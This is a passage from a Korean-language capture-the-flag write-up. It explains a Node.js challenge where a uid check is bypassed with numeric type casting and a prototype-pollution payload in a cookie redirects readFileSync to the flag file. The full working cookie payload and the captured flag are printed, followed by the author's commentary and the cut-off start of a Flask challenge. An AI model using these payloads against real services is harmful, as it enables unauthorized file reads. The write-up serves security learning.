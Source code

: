 ```javascript

	let result = ":(";
	try {
		result = new String(vm.run(`sum([${req.userData}])`))
	} catch (e) {}
	res.type('text/plain').send(result)
```

uid가 0이여야 하는데 일반적으론 uid를 0으로 설정하는 것이 불가능하다.
하지만 uid를 0.1e1과 같이 전달할 경우 type casting으로 인해 이를 우회하여 uid가 0인 유저가 될 수 있다.

위를 우회했기 때문에 vm안에서 코드를 실행하는 것이 가능한데 filter로 인해서 flag 파일을 읽는 것이 불가능하다. 
이는 Prototype pollution을 이용하면 우회하여 flag 파일을 읽는 것이 가능하다.

```
a={};a.__proto__.protocol='file:';a.__proto__.pathname='/flag.txt';a.__proto__.href='a';a.__proto__.origin='a';a.__proto__.hostname='';readFile([])
```

prototpe pollution을 이용해서 fs.readFileSync가 전혀 다른 파일을 읽도록 하는 것이 가능하다.

회원가입하고 아래와 같이 쿠키를 설정한 뒤 /checkout으로 요청을 보내면 된다.

```
{"username":"ff","password":"123456"}
```
-> 
```
uid=0.3e1; passwd=8d969eef6ecad3c29a3a629280e686cf0c3f5d5a86aff3ca12020c923adc6c92; data=1+1])%3ba={}%3ba.__proto__.protocol='file:'%3ba.__proto__.pathname='/flag.txt'%3ba.__proto__.href='asdf'%3ba.__proto__.origin='a'%3ba.__proto__.hostname=''%3breadFile([])//
```
여기서 uid 0.3e1에서 3은 자신이 부여받은 uid를 넣어주면 된다.

Flag: `hspace{0eabbdb7a226290c9f5a6eae6d72d6c1}`

### 블로그 포스트 작성자의 추가적인 코멘트

Node.js의 vm run을 우리의 input으로 그대로 이용하고 있기 때문에 `prototype pollutiuon`을 유발시킬 수 있다는 점은 쉽게 알 수 있습니다. 이 점을 알고있다면, 사실 위에 적혀있는 풀이처럼 필터링되어있는 `readFileSync`의 흐름을 조작할 수 있는 것은 잘 알려져있는 익스플로잇 방법입니다. <br>
때문에, vm이 run 될 때, 실행할 수 없는 `child process`같은 방법이 아니라 vm 외부에서의 동작을 조작할 수 있는 방법에 대해 고민해보는 점이 풀이에 다가가기 위해 매우 중요합니다. 우리는 이러한 사고를 통해 prototype pollution을 생각해낼 수 있습니다. <br>
결론적으로는 prototype pollution에 대해 알고 있는지에 대해 물어보는 문제였습니다. 개인적으로는 prototype pollution을 떠올릴 수 있는 관련 키워드가 문제 설명에 적혀있었다면 어땠을까 하는 생각이 드는 것 같습니다.

---

## trick

**출제자 책정 난이도**: Hard

```python
@app.route("/")
def index():
    name = request.args.get('name', "").replace("(","").replace(")","").replace("{","").replace("}","")
    code = request.args.get('code', "").replace("(","").replace(")","").replace("{","").replace("}","")
    title = request.args.get('title', "")
    content = request.args.get('content', "")
    ctx = {
        'nonce': os.urandom(32).hex(),
        'note': {
        'title': title,
        'content': content,
        },
        'name': name,
        'code': code,
```